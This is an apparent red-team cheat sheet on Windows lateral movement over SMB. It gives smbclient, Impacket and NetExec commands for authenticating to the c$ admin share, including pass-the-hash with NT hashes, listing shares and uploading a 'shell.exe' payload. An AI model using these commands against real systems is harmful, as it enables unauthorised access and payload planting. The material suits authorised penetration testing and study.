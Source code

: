 # Unix Shell

Search Tag(s): #lateral-movement #impacket #windows

## 01 - Authenticate

### 1.1 - Samba Suite Utils

`$ smbclient -U "[<domain_name>/]<username>%<password>" //<IP>/c$`

- Pass the Hash

`$ smbclient -U "[<domain_name>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$`

### 1.2 - Impacket

`$ smbclient.py [<domain>/]<username>:<password>@<IP>`

- Pass the Hash

`$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>`

### 1.3 - NetExec

#### 1.3.1 - Setup

TODO: Fill this info

- Install dependencies

```
$ sudo apt install -y python3-aardwolf python3-aesedb python3-aiocmd python3-aioconsole python3-aiosmb python3-aiosqlite python3-aiowinreg python3-all-dev python3-anyjson python3-arc4 python3-argcomplete python3-asciitree python3-asn1tools python3-asyauth python3-asysocks python3-backcall python3-bs4 python3-beniget python3-bitstruct bloodhound.py python3-dateutil python3-diskcache python3-dploot python3-dsinternals python3-gast python3-libnmap python3-lsassy python3-masky python3-minidump python3-minikerberos python3-msgpack python3-msldap python3-neo4j python3-neobolt python3-neotime python3-oscrypto python3-paramiko python3-pickleshare python3-poetry-dynamic-versioning python3-pyasn1-modules python3-pyatspi python3-pylnk3 python3-pypsrp python3-pypykatz python3-pythran python3-pywerview python3-requests python3-requests-toolbelt python3-rich python3-spnego python3-sqlalchemy python3-termcolor python3-terminaltables python3-winacl python3-xmltodict
```

#### 1.3.2 - Authentication

`$ netexec smb <IP> -u "<username>" -p "<password>"`

- Pass the Hash

`$ netexec smb <IP> -u "<username>" -H "<nt_hash>"`

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

`smb: \> ls`

### 2.2 - Impacket

```
# use c$

# ls
```

### 2.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" --shares
```

## 03 - Copy Files

### 3.1 - Samba Suite Utils

- Upload file

`smb: \> put /path/to/local/shell.exe`

- Download file

`smb: \> get \path\to\remote\file.txt`

### 3.2 - Impacket

- Upload file

```
# put /path/to/local/shell.exe
```

- Download file

```
# get \path\to\remote\file.txt
```

### 3.3 - NetExec

- Upload file

```
$ netexec smb <IP> -u "<username>" -p "<password>" --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe
```

- Download file

```
$ netexec smb <IP> -u "<username>" -p "<password>" --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt
```

---
## References

- [NetExec Wiki: Get and Put Files](https://www.netexec.wiki/smb-protocol/get-and-put-files)